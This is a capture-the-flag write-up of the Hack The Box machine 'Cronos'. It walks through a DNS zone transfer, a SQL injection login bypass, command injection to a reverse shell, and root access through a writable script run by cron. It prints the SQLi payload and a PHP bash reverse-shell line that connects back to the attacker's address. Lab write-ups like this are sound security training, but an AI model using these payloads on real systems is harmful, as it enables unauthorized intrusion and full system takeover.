# Cronos

## Summary

This was a pretty straightforward box involving initial enumeration via `DNS zone transfer` to discover additional domains. The box then flows us into following up with `SQL` and `command injection`. Once we've gotten a foothold on the box we werea able to perform `privilege escalation` via the running `cron job`. Read on for the details.

----

## Enumeration

```shell
$ sudo rustscan -b 8192 -u 16384 -a 10.10.10.13 -- -sS -sV -sC -oN 10.10.10.13.$(basename $PWD).nmap.txt
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)            
| ssh-hostkey:
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCkOUbDfxsLPWvII72vC7hU4sfLkKVEqyHRpvPWV2+5s2S4kH0rS25C/R+pyGIKHF9LGWTqTChmTbcRJLZE4cJCCOEoIyoeXUZWMYJCqV8crflHiVG7Zx3wdUJ4yb54G6NlS4CQFwChHEH9xHlqsJhkpkYEnmKc+CvMzCbn6CZn9KayOuHPy5NEqTRIHObjIEhbrz
2ho8+bKP43fJpWFEx0bAzFFGzU0fMEt8Mj5j71JEpSws4GEgMycq4lQMuw8g6Acf4AqvGC5zqpf2VRID0BDi3gdD1vvX2d67QzHJTPA5wgCk/KzoIAovEwGqjIvWnTzXLL8TilZI6/PV8wPHzn
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)            
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKWsTNMJT9n5sJr5U1iP8dcbkBrDMs4yp7RRAvuu10E6FmORRY/qrokZVNagS1SA9mC6eaxkgW6NBgBEggm3kfQ=
|   256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHBIQsAL/XR/HGmUzGZgRJe/1lQvrFWnODXvxQ1Dc+Zx
53/tcp open  domain  syn-ack ttl 63 ISC BIND 9.10.3-P4 (Ubuntu Linux)  
| dns-nsid:                         
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods:                
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
**Rustscan/Nmap Output**


**Figure 1:** Rustscan/nmap Output


**Figure 2:** Rustscan/nmap Output (contd)

From out nmap and rustscan we find ports `22`, `53`, and `80` open.

----

### Port 53

Usually when I see an open DNS port that leads me to think enumeration of subdomains (and OTHER domains) via a zone transfer. Let's ask the DNS server for a dump of it's records:

```shell
$ dig AXFR @10.10.10.13 cronos.htb
; <<>> DiG 9.16.15-Debian <<>> AXFR @10.10.10.13 cronos.htb
; (1 server found)
;; global options: +cmd

cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.             604800  IN      NS      ns1.cronos.htb.
cronos.htb.             604800  IN      A       10.10.10.13
admin.cronos.htb.       604800  IN      A       10.10.10.13
ns1.cronos.htb.         604800  IN      A       10.10.10.13
www.cronos.htb.         604800  IN      A       10.10.10.13
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800                                                                            
;; Query time: 80 msec
;; SERVER: 10.10.10.13#53(10.10.10.13)
;; WHEN: Mon Aug 30 19:44:27 PDT 2021
;; XFR size: 7 records (messages 1, bytes 203
```
**Zone Transfer Attempt**


**Figure 3:** Records from DNS Zone Transer Test

This gave us a new domain to start enumerating, `admin.cronos.htb`.

### Port 22

We never ended up using ssh but could have.

### Port 80

Visiting this service without a proper host header results in the default apache "It Works!" page. Based on the name of the box it wasn't a far logical leap to add `cronos.htb` to our `/etc/hosts` file.


**Figure 4:** Apache - It Works!

From here we found a plain website talking about Laravel with absolutely nothing on it. Let's look around in other places for now.


**Figure 5:** Pretty Empty Laravel Webpage.

We can garner some useful information such as the website is probably power by `PHP`, probably `Laravel` specifically, `Apache 2.4.18`, and `Ubuntu`.

We attempted Feroxbuster here to see if we could find any directories but we turned up nothing on our first pass.

----

## Initial Exploitation

Time passes and we come back here after enumerating [Port 53](#port-53) below.

With our new found knowledge of `admin.cronos.htb`. We find an admin login page but we don't have any credentials from our previous reconaissance. Let's try to bypass the login.


**Figure 6:** Admin Login Portal

The admin page can be bypassed if we try some basic SQL injection: `' OR 1=1-- -`.


**Figure 7:** Bypassing the Admin Login Portal

----

## Foothold

We are now inside the admin panel where it looks like we've got command injection. Let's continue.


**Figure 8:** The Admin Portal

And yes. We've found the most basic of basic command injections:


**Figure 9:** Command Injection in the Admin Portal

... Let's get a shell.


**Figure 10:** Getting Reverse Shell via the Admin Portal


**Figure 11:** Catching Reverse Shell in netcat

----

## Privilege Escalation

Enumeration here was quick. We ran with the box name as a hint and looked at cronjobs. We immediately hit paydirt.

```shell
www-data@cronos:/var/www/admin$ cat /etc/cron*
[...snip...]
# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * * * *       root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```
**Writable/Vulnerable Cronjob**

We see `/var/www/laravel/artisan` being run every minute of every hour of every day of every week of every month.

We also see this is being run as root and, helpfully, we also own it and it's editable:

```shell
$ ls -l /var/www/laravel/artisan
-rwxr-xr-x  1 www-data www-data    1646 Apr  9  2017 artisan
```
**Writeble Permissions on PHP Script**

Let's drop a reverse shell in and we're done.

```shell
exec('bash -c \'exec /bin/bash -i &>/dev/tcp/10.10.14.2/32000 <&1\'')
```
**PHP Bash Reverse Shell**


**Figure 12:** Cronjob PrivEsc to root
